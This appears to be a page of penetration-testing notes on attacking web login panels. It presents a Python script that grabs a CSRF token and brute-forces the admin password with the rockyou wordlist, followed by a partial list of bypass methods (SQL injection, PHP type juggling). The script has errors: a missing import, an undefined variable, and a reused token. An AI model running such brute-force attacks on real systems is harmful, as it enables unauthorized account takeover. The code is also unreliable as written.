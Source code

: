 ## My own script

I made my own script in order to bruteforce some login panes with CSRF protection. I think is a good alternative to the Burpsuite **Pitchfork attack.**

```
#!/usr/bin/env python3

import sys, os, requests, codecs

s = requests.Session()

# Get CRSF TOKEN
resp = s.get("https://WEBPAGE.LOCAL/", verify=False)
regex = '<input type="hidden" name="csrf" value="(.*)"'
token = re.search(regex,resp.text).group(1)

with codecs.open("/usr/share/wordlists/rockyou.txt", 'r', encoding='utf-8', errors='ignore') as wordlist:
	dic = wordlist.read().splitlines()
	for pwd in dic:

		#Bruteforce
		data_post = {
			"csrf" : token,
			"username" : "admin",
			"password" : pwd,
		}
		print("[!] Trying: " + pwd)
		resp2 = s.post("https://WEBPAGE.LOCAL/login", json=data_post, verify=False)
		if "permission_denied" not in resp2.text:
			print("Username = " + username + "Password = " + pwd)
			sys.exit(0)	
```

## Bypass it!

The are very different methods to bypass a login pane, this are the most common ones.

### SQLi

There are more info to bypass login panes with SQL Injections in:

* [sqli.md](../sqli/)

### PHP Type Juggling (==)

How PHP’s type comparison features lead to vulnerabilities and in that case to bypass the login. Loose comparisons (==) have a set of operand conversion rules to make it easier for developers.

Let's check the differences between Strict comparisons (===) and Loose comparisons (==).

![PHP Strict comparison](/hackingnotes/images/phpstrict.png)
